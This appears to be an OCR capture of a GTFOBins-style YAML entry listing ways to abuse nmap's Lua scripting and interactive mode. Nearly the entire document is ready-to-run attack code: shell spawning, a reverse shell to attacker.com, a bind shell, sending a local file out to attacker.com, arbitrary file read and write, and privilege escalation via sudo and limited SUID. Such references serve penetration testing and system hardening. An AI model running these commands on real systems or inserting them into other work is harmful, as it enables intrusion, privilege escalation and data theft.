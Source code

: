 ```yaml
---
functions:
  shell:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        nmap --interactive
        nmap> !sh
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp)
        echo 'local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        while true do
          local r,x=t:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));t:send(b);
        end;
        f:close();t:close();' > $TF
        nmap --script=$TF
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.bind("*",os.getenv("LPORT")));
        local c=s:accept();
        while true do
          local r,x=c:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));c:send(b);
        end;c:close();f:close();' > $TF
        nmap --script=$TF
  file-upload:
    - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        TF=$(mktemp)
        echo 'local f=io.open(os.getenv("LFILE"), 'rb')
        local d=f:read("*a")
        io.close(f);
        local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        t:send(d);
        t:close();' > $TF
        nmap --script=$TF
  file-download:
    - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.bind("*",os.getenv("LPORT")));
        local c=s:accept();
        local d,x=c:receive("*a");
        c:close();
        local f=io.open(os.getenv("LFILE"), "wb");
        f:write(d);
        io.close(f);' > $TF
        nmap --script=$TF
  file-write:
    - code: |
        TF=$(mktemp)
        echo 'lua -e 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
        nmap --script=$TF
  file-read:
    - code: |
        TF=$(mktemp)
        echo 'lua -e 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
        nmap --script=$TF
  sudo:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        sudo nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        sudo nmap --interactive
        nmap> !sh
  limited-suid:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        ./nmap --script=$TF
---
```

